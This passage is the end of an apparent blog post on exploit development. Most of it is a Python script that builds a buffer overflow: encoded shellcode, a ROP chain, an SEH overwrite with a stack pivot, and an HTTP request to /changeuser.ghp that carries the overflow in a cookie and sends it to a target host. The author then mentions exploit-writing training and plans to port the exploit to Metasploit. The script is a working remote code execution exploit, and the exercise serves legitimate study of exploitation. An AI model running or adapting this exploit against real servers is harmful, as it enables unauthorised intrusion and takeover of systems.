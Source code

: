 shellcode += "\xc9\xb1\x31\x31\x58\x13\x83\xe8\xfc\x03\x58\xd1\xd5"
shellcode += "\x86\x15\x05\x9b\x69\xe6\xd5\xfc\xe0\x03\xe4\x3c\x96"
shellcode += "\x40\x56\x8d\xdc\x05\x5a\x66\xb0\xbd\xe9\x0a\x1d\xb1"
shellcode += "\x5a\xa0\x7b\xfc\x5b\x99\xb8\x9f\xdf\xe0\xec\x7f\xde"
shellcode += "\x2a\xe1\x7e\x27\x56\x08\xd2\xf0\x1c\xbf\xc3\x75\x68"
shellcode += "\x7c\x6f\xc5\x7c\x04\x8c\x9d\x7f\x25\x03\x96\xd9\xe5"
shellcode += "\xa5\x7b\x52\xac\xbd\x98\x5f\x66\x35\x6a\x2b\x79\x9f"
shellcode += "\xa3\xd4\xd6\xde\x0c\x27\x26\x26\xaa\xd8\x5d\x5e\xc9"
shellcode += "\x65\x66\xa5\xb0\xb1\xe3\x3e\x12\x31\x53\x9b\xa3\x96"
shellcode += "\x02\x68\xaf\x53\x40\x36\xb3\x62\x85\x4c\xcf\xef\x28"
shellcode += "\x83\x46\xab\x0e\x07\x03\x6f\x2e\x1e\xe9\xde\x4f\x40"
shellcode += "\x52\xbe\xf5\x0a\x7e\xab\x87\x50\x14\x2a\x15\xef\x5a"
shellcode += "\x2c\x25\xf0\xca\x45\x14\x7b\x85\x12\xa9\xae\xe2\xed"
shellcode += "\xe3\xf3\x42\x66\xaa\x61\xd7\xeb\x4d\x5c\x1b\x12\xce"
shellcode += "\x55\xe3\xe1\xce\x1f\xe6\xae\x48\xf3\x9a\xbf\x3c\xf3"
shellcode += "\x09\xbf\x14\x90\xcc\x53\xf4\x79\x6b\xd4\x9f\x85"


buffer = "A" * rop_offset						# padding
buffer += create_rop_chain()
buffer += shellcode
buffer += "A" * (seh_offset - len(buffer))		# padding
buffer += "BBBB"								# overwrite nSEH pointer
buffer += struct.pack("<I", 0x1002280a)			# overwrite SEH record with stack pivot (ADD ESP,1004 # RETN [ImageLoad.dll])
buffer += "A" * (eax_offset - len(buffer))		# padding
buffer += struct.pack("<I", 0xffffffff)			# overwrite EAX to always trigger an exception
buffer += "A" * (max_size - len(buffer))		# padding


httpreq = (
"GET /changeuser.ghp HTTP/1.1\r\n"
"User-Agent: Mozilla/4.0\r\n"
"Host:" + host + ":" + str(port) + "\r\n"
"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
"Accept-Language: en-us\r\n"
"Accept-Encoding: gzip, deflate\r\n"
"Referer: http://" + host + "/\r\n"
"Cookie: SESSIONID=6771; UserID=" + buffer + "; PassWD=;\r\n"
"Conection: Keep-Alive\r\n\r\n"
)

# Send payload to the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(httpreq)
s.close()

{% endcodeblock %}

I had a lot of fun writing the exploit, I learnt couple new things and also treated it as a bit of a practice after what I've learned at the before mentioned [Corelan Bootcamp](https://www.corelan-training.com/index.php/training-2/bootcamp/) training (which was **AWESOME** and would highly recommend it to anyone interested in exploit development).

Next on the cards is converting the above exploit into Metasploit module and finding some other PoC's that I may be able to convert to properly working exploits.

Ah, only if I could fit some more hours in the day!
